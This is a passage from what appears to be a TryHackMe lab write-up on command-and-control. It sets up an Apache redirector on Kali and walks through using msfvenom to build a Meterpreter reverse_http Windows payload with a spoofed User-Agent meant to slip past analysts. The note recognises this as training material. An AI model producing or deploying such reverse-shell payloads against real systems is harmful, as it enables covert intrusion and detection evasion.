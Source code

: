 ```
  libaprutil1-ldap
Suggested packages:
  apache2-doc apache2-suexec-pristine | apache2-suexec-custom
The following NEW packages will be installed
  apache2 apache2-bin apache2-data apache2-utils libaprutil1-dbd-sqlite3
  libaprutil1-ldap
0 to upgrade, 6 to newly install, 0 to remove and 416 not to upgrade.

Processing triggers for systemd (237-3ubuntu10.42) ...
Processing triggers for man-db (2.8.3-2ubuntu0.1) ...
Processing triggers for ufw (0.36-0ubuntu0.18.04.1) ...
Processing triggers for ureadahead (0.100.0-21) ...

root@kali$ a2enmod rewrite && a2enmod proxy && a2enmod proxy_http && a2enmod headers && systemctl start apache2 && systemctl status apache2
Enabling module rewrite.
To activate the new configuration, you need to run:
  systemctl restart apache2
Enabling module proxy.
To activate the new configuration, you need to run:
  systemctl restart apache2
Enabling module proxy_http.
To activate the new configuration, you need to run:
  systemctl restart apache2
Enabling module headers.
To activate the new configuration, you need to run:
  systemctl restart apache2

● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: active (running) since Thu 2022-02-10 23:17:08 EST; 7ms ago
       Docs: https://httpd.apache.org/docs/2.4/
    Process: 4149 ExecStart=/usr/sbin/apachectl start (code=exited, status=0/SUCCESS)
   Main PID: 4153 (apache2)
      Tasks: 1 (limit: 19072)
     Memory: 6.0M
        CPU: 19ms
     CGroup: /system.slice/apache2.service
             └─4153 /usr/sbin/apache2 -k start
```
Using Meterpreter, we have the ability to configure various aspects of the HTTP Request, for example, the User-Agent. It is very common for a threat actor to make a slight adjustment to the User-Agent in their C2 HTTP/HTTPS payloads. It's in every HTTP request, and they all more or less look the same, and there is a very good chance a security analyst may overlook a modified user agent string. For this demonstration, we will generate a Meterpreter Reverse HTTP payload using MSFvenom; then we will inspect the HTTP request in Wireshark. 
#### Generating a Payload with Modified Headers -
```
root@kali$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 454 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```
After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use the HTTP filter to only view HTTP requests. After it's started capturing packets, execute the binary on the victim system. You will notice an HTTP request come in with our modified User-Agent.  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Intro%20to%20C2_35.png" width="100%" height="100%">  
